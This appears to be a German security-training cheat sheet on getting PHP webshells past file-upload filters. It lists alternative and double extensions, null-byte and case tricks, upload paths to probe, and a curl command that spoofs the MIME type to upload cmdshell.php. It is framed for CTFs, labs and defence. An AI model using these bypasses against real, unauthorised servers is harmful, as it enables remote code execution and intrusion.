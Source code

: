 # 🐚 PHP Webshell Upload Tricks & Bypasses



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Klassische Upload-Namen für Webshells](#klassische-upload-namen-für-webshells)
- [Tarnung als Bilddatei (Double Extensions)](#tarnung-als-bilddatei-double-extensions)
- [Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)](#groß-kleinschreibung-bypass-durch-case-insensitive-filter)
- [Weitere gebräuchliche alternative Erweiterungen](#weitere-gebräuchliche-alternative-erweiterungen)
- [Upload-Verzeichnisse testen](#upload-verzeichnisse-testen)
- [Nützliches Tool: Content-Disposition & MIME-Typ prüfen](#nützliches-tool-content-disposition--mime-typ-prüfen)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

 

## Einleitung

In diesem Dokument findest du typische Dateinamen- und Erweiterungstricks, die bei **File Upload Attacks** verwendet werden, um **PHP-Webshells** trotz Dateifilter oder Upload-Validierung auf einen Webserver zu schleusen.

Solche Techniken sind besonders in **Capture The Flag (CTF)**-Challenges, **Bug Bounty**-Szenarien und **Red Team Assessments** relevant – etwa wenn Dateiuploads nur scheinbar eingeschränkt werden.

> ⚠️ Diese Datei dient ausschließlich zu **Lern- und Testzwecken** in legalen Übungsumgebungen (z. B. TryHackMe, HackTheBox).



## Klassische Upload-Namen für Webshells

```text
cmdshell.phtml
cmdshell.pht
cmdshell.php3
cmdshell.php4
cmdshell.php5
cmdshell.php6
cmdshell.inc
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tarnung als Bilddatei (Double Extensions)

**Ziel:** 
Umgehen von Filtermechanismen, die .php blockieren, aber .jpg oder .png erlauben.

```text
cmdshell.php.jpg
cmdshell.php%00.jpg   # Null-Byte-Trick (nur bei älteren Servern möglich)
cmdshell.php;.jpg     # selten erlaubt, nutzt inkorrekte .htaccess oder MIME-Fehler
cmdshell.jpg.php
```



## Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)

Manche Filter prüfen nur .php in Kleinbuchstaben:
```text
cmdshell.pHp
cmdshell.Php
cmdshell.PHP
```



## Weitere gebräuchliche alternative Erweiterungen
Diese Erweiterungen werden auf manchen falsch konfigurierten Servern ebenfalls als PHP interpretiert:

```text
.pht
.phtml
.php3
.php4
.php5
.inc
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Upload-Verzeichnisse testen
Wenn du eine Datei erfolgreich hochgeladen hast, teste verschiedene Uploadpfade:

```bash
http://[IP]/uploads/cmdshell.php
http://[IP]/admin/uploads/cmdshell.phtml
http://[IP]/images/cmdshell.php.jpg
```



## Nützliches Tool: Content-Disposition & MIME-Typ prüfen
Manche Filter prüfen den MIME-Typ. Tools wie Burp Suite oder curl helfen dir, die Content-Type-Header zu manipulieren:

```bash
curl -X POST -F "file=@cmdshell.php;type=image/jpeg" http://target/upload.php
```



**💡 Hinweis:** 
Wissen über Webshell-Uploadtricks hilft auch Defensive Security Teams, um Dateiuploads richtig abzusichern und forensisch zu analysieren.



## Siehe auch:

- [php_web_shell_usage.md](/03-web-security/angriffe/webshells/php_web_whell_usage.md)
- [php_rce_cheat_sheet.md](/03-web-security/angriffe/webshells/php_rce_cheat_sheet.md)
- [post_exploitation_tools.md](/04-host-security/post_exploitation_tools.md)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---